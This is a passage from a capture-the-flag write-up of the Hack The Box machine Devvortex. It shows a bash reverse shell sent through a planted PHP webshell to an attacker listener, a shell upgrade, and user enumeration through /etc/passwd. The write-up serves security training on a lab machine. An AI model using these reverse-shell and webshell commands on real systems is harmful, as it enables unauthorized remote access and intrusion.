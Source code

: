 ### Shell

From either webshell, I’ll get a shell by running a standard [bash reverse
shell](https://www.youtube.com/watch?v=OjkVep2EIlw) with it:

    
    
    oxdf@hacky$ curl http://dev.devvortex.htb/plugins/search/webshell/evil.php --data-urlencode 'cmd=bash -c "bash -i >& /dev/tcp/10.10.14.6/443 0>&1"'
    

I get a connection at `nc`:

    
    
    oxdf@hacky$ nc -lvnp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.242 57742
    bash: cannot set terminal process group (877): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@devvortex:~/dev.devvortex.htb/plugins/search/webshell$
    

I’ll upgrade my shell with [the standard
trick](https://www.youtube.com/watch?v=DqE6DxqJg8Q):

    
    
    www-data@devvortex:~/dev.devvortex.htb/plugins/search/webshell$ script /dev/null -c bash
    Script started, file is /dev/null
    www-data@devvortex:~/dev.devvortex.htb/plugins/search/webshell$ ^Z
    [1]+  Stopped                 nc -lvnp 443
    oxdf@hacky$ stty raw -echo ; fg
    nc -lvnp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    www-data@devvortex:~/dev.devvortex.htb/plugins/search/webshell$ 
    

## Shell as logan

### Enumeration

#### Home Directories

There’s only one user on this box with a home directory or a shell set:

    
    
    www-data@devvortex:/home$ ls
    logan
    www-data@devvortex:/home$ cat /etc/passwd | grep 'sh$'
    root:x:0:0:root:/root:/bin/bash
    logan:x:1000:1000:,,,:/home/logan:/bin/bash
    

www-data is able to read in this directory, but the only interesting file is
`user.txt`, which www-data cannot read:
